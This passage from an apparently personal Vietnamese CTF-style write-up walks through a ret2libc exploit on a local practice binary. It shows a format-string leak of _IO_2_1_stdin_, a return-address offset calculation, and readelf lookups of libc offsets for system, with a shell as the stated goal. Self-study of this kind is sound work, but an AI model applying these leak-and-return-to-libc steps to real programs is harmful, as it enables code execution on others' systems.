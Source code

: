ta cần ghi vào ô nhớ trống tránh việc ghi đè lên vùng nhớ đã chứa gữ liệu.

ta có thể check được điều đó với ***pwndbg> x/100s 0x404000***. ở đây mình chọn **0x404070**

Cần tính số byte để overflow đến return address, này đặt breakpoints và tính:

```python
>>> str = 0x7fffffffe000
>>> ret = 0x7fffffffe028
>>> ret - str
40

```

### leak func

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwn_from_blabla/pwn07_rop_ret2libc$ python3 exploit.py
[+] Starting local process './something': pid 641
[*] running in new terminal: ['/usr/bin/gdb', '-q', './som[+] Starting local process './something': pid 641
[*] running in new terminal: ['/usr/bin/gdb', '-q', './something', '641', '-x', '/tmp/pwn2t5eqodz.gdb']
[-] Waiting for debugger: debugger exited! (maybe check /proc/sys/kernel/yama/ptrace_scope)
b'Hello !!!!\nSay something : '
[*] Switching to interactive mode
$ %p %p %p %p
0x1 0x1 0x7fb5af242aa0 (nil)Say something : $

```

```shell
pwndbg> x/s 0x7fb5af242aa0
0x7fb5af242aa0 <_IO_2_1_stdin_>:        "\213 \255", <incomplete sequence \373>
```

vậy ta nhận thấy là ở format string thứ 3 tức **%3$p** thì có được địa chỉ của hàm ****IO_2_1_stdin****

Tiếp theo muốn tính được *libc base* ta cần có offset của hàm ****IO_2_1_stdin****. How?

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwn_from_blabla/pwn07_rop_ret2libc$ readelf -sW /usr/lib/x86_64-linux-gnu/libc.so.6 | grep "_IO_2_1_stdin_"
  2298: 0000000000219aa0   224 OBJECT  GLOBAL DEFAULT   34 _IO_2_1_stdin_@@GLIBC_2.2.5
```

Sau khi có được offset => tiến hành tính *libc_base*

Có *libc_base* ta cần thêm offset của *system* và */bin/sh* để lấy shell

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwn_from_blabla/pwn07_rop_ret2libc$ readelf -sW /usr/lib/x86_64-linux-gnu/libc.so.6 | grep "system"
   396: 0000000000050d60    45 FUNC    GLOBAL DEFAULT   15 __libc_system@@GLIBC_PRIVATE
  1481: 0000000000050d60    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5
  2759: 0000000000169140   103 FUNC    GLOBAL DEFAULT   15 svcerr_systemerr@GLIBC_2.2.5

```
